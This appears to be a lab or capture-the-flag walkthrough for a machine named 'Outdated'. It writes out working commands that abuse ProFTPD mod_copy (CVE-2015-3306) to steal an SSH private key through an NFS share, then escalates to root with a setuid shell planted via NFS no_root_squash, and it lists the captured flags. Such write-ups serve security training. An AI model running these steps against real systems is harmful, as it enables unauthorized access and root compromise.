

# Outdated

**IP Address:** 172.31.1.22

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 111/tcp | open | rpcbind |  2-4 |
| 2049/tcp | open | nfs_acl |  2-3 |
| 21/tcp | open | ftp | ProFTPD 1.3.5 |
| 22/tcp | open | ssh | OpenSSH 5.9p1 Debian 5ubuntu1.10 |
| 35804/tcp | open | mountd |  1-3 |
| 48197/tcp | open | mountd |  1-3 |
| 50352/tcp | open | nlockmgr |  1-4 |
| 55495/tcp | open | status |  1 |
| 55614/tcp | open | mountd |  1-3 |
| 68/udp | open|filtered | dhcpc |   |

## Exploitation
### Exploit Details (SearchSploit)
* **Name** - ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution 
* **CVE** - 2015-3306
* **Module** - linux/remote/36803.py
* **Disclosed** - 2015-04-21
* **References**
  * https://www.exploit-db.com/exploits/36803
  * https://nvd.nist.gov/vuln/detail/CVE-2015-3306

As we don't have a webserver available we have to run the exploit manually and make a few adjustments. 

Commands
```
mkdir nfs
mount -t nfs $ip:var/nfsbackups nfs -o nolock
telnet $ip 21
site cpfr /home/daniel/.ssh/id_rsa
site cpto /var/nfsbackups/id_rsa
quit
cp nfs/id_rsa .
chmod 600 id_rsa
ssh daniel@$ip -i id_rsa
whoami
cat access.txt
```



## Privilege Escalation
### Exploit Details (NFS no_root_squash/no_all_squash)
* **Name** - NFS no_root_squash/no_all_squash
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A


Commands
```bash
sudo echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
gcc x.c -o nfs/x
chmod +s nfs/x
/var/nfsbackups/x
whoami
cat /root/system.txt
```


## Loot
```
local.txt
c3f5c15577e8d04d18ead19da6e9ea7a
system.txt
1d57710c976ac5da6092e60f852506b8
```